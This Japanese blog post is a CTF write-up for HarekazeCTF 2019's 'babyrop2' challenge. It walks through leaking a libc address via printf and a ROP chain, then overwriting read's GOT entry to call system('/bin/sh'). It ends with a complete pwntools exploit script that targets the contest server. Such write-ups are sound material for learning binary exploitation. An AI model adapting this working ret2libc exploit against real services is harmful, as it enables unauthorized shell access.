








// date: 2019-05-20

# はじめに
５月１８日、 [#HarekazeCTF](https://twitter.com/hashtag/HarekazeCTF) に「NekochanNano!」の一員として参加させていただきました。最後に５１０ポイントを集めることが出来、私たちは５２３チームが参加する中、６８位で終えました。

[「babyrop」のライトアップ](https://madousho.hatenadiary.jp/entry/2019/05/20/015653)も投稿してありますので、ぜひ前に読んできてくださいね！

# babyrop2

## プログラム解析

「babyrop」のときと同じように、接続できるIPアドレスとポート番号、そしてELFバイナリが手に入れます。加えて、今度は`libc.so.6`も渡されます。

いつもどおりに、`checksec`でセキュリティ機構を確認します。



今回も、RELRO、Stack、そしてPIEが無い。Nice! !(^-^)!

また`radare2`で開き、main関数の逆アセンブリを読んでいきましょう〜



> 画像が小さすぎるのであれば右クリックし、Ctrlまた⌘キーを押しながら「画像を表示」で開いてください。

一般のユーザが実行すれば、「babyrop」の動作と何が違うか見極められないけど、逆アセンブリを読めばその違いがよくわかりますね。また言葉で説明してみます。

1. 在bss領域文字列を`edi`で指定、`printf`でメッセージを出力する
2. `read`で、0x100バイトまで入力をスタック変数(`rbp-0x20`)に読み込む
3. フォーマット形式と`rbp-0x20`を引数として用意、`printf`で前の入力を含めたメッセージを表示する

「babyrop」に比べると、大きいな違いがありますね！「babyrop」と違って、`system`や`/bin/sh`がプログラムに含められていないのです。なので、ROPを行えば、`system`にジャンプするために、呼び出す前にそのlibc以内のアドレスを計算することが必要となります。

`printf`を使えば、GOT領域からある関数のlibcポインターをリークすることが出来るはずです。そうしたら、既に有している`libc.so.6`を使い、`system`関数とその関数の距離を計算することが出来ます。では、`read`関数を狙おうと思います。

ROPで`printf`を呼び出せば、フォーマット形式を`rdi`にし、引数を`rsi`で示します。したがって`pop rsi`と`pop rdi`というガジェットが必要です。



良き。

```python
pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
```

>【注意】`pop rsi`の直後に`pop r15`という命令があるので気をつけてください。このガジェットを利用するときに、`r15`に保存されるための何かも必ず用意するように。

次に`print`のPLTアドレスと`read`のGOTポインターを取りましょう。



```python
plt_printf = p64(0x4004f0)
got_read = p64(0x601020)
```

これで、`printf`にジャンプすることが出来、利用した上、`read`のGOTポインターをリーク、libc以内アドレスを掴むための準備が出来ました。

いまから試してみましょう。

```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
from pwn import *

pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
got_read = p64(0x601020)
plt_printf = p64(0x4004f0)
str_format = p64(0x400770)

# ---- printf("%s", read@got) ----
payload = 'a' * 0x20
payload += 'b' * 8      # RBP
payload += pop_rdi + str_format
payload += pop_rsi + got_read + p64(0)
payload += plt_printf
# --------------------------------

sock = process(["./babyrop2"], env={"LD_PRELOAD":"./libc.so.6"})
sock.read()
sock.sendline(payload)
sock.readline()

addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

sock.close()
```



よし、成功！ (≧∇≦)/！！

なう、`objdump`を使い、リークしたreadと、system関数のベース位置を把握、距離を計算します。



よってreadのアドレスから`0xb1ec0`を引いたら`system`のアドレスになります。

```python
addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

addr_system = addr_read - 0xb1ec0
print("[*] systemの位置を計算しました: %s" % hex(addr_system))
```

最後のステップですが、計算した`system`のアドレスをどうやってプログラムに入力するのでしょうか、どうやって実行するのでしょうか？

いま、実行できるのは`printf`、`read`、`setvbuf`と`main`だけです。この中から、任意ジャンプのために使えるものが２つ。どれなのかわかりますか？

→ `printf`と`read`です！`printf`の場合、前みたいにFSBを発生させ、任意アドレスを上書きすることが可能です。そして`read`の場合、書き込み先のアドレスを引数として渡せばそれだけで任意書き込みができます。任意書き込みから任意ジャンプをどうやってするのかというなら、GOT領域のポインターを書き換え、繋がりの関数を呼び出すのが一つの方法です。

というわけで、次の作戦を考えました。`read`を利用し、`read`関数そのもののGOTポインターを上書きし、直後に文字列を同時に書き込むことにしようと思います。上書きの後、固定なGOT領域アドレスに保存した文字列を`rdi`レジスタにし、再び`read`を呼び出すことで`system`を実行する、という作戦であります。

`read`のGOTアドレスが既にわかりますので、最後の要する情報が、`read`のPLTアドレスだけです。



ようやく準備がすべて整えました！！＼(^o^)／

## エクスプロイト作成

```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
from pwn import *

pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
got_read = p64(0x601020)
plt_printf = p64(0x4004f0)
str_format = p64(0x400770)

# ---- printf("%s", read@got) ----
payload = 'a' * 0x20
payload += 'b' * 8      # RBP
payload += pop_rdi + str_format
payload += pop_rsi + got_read + p64(0)
payload += plt_printf
# --------------------------------

call_read = p64(0x400500)
str_binsh = p64(0x601028)       # got_readの直後

# ---- read(0, read@got, 0x100) ----
payload += pop_rdi + p64(0)
payload += pop_rsi + got_read + p64(0)
payload += call_read
# ----------------------------------

# ---- system("/bin/sh") -----------
payload += pop_rdi + str_binsh
payload += pop_rsi + p64(0) + p64(0)
payload += call_read
# ----------------------------------

# sock = process(["./babyrop2"], env={"LD_PRELOAD":"./libc.so.6"})
sock = remote("problem.harekaze.com", 20005)
sock.read()

print "[*] Payload size = %s" % hex(len(payload))
sock.sendline(payload)
sock.readline()

addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

addr_system = addr_read - 0xb1ec0
print("[*] systemの位置を計算しました: %s" % hex(addr_system))

sock.sendline(p64(addr_system) + "/bin/sh\x00")

sock.interactive()
sock.close()
```

## 実行してシェル奪い！



今回は長かったのですが、最後まで読んで頂き、ありがとうございました！
